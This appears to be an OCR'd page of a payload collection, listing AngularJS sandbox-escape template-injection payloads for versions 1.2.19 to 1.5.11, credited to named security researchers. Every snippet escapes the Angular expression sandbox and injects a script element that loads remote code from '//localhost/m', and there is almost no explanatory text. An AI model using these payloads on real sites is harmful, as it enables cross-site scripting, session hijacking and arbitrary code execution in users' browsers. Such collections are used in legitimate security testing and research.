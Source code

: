 1.2.19 (Firefox) 由 Mathias Karlsson

```javascript
{{
    toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a",'eval("var _ = document.createElement(\'script\');
    _.src=\'//localhost/m\';
    document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);
}}
```

1.2.20 - 1.2.29 由 Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.3.0 - 1.3.9 由 Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),a')
}}
```

1.4.0 - 1.5.8 由 Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

1.5.9 - 1.5.11 由 Jan Horn (Cure53, 现在在 Google Project Zero)

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;c.$apply=$apply;
    c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

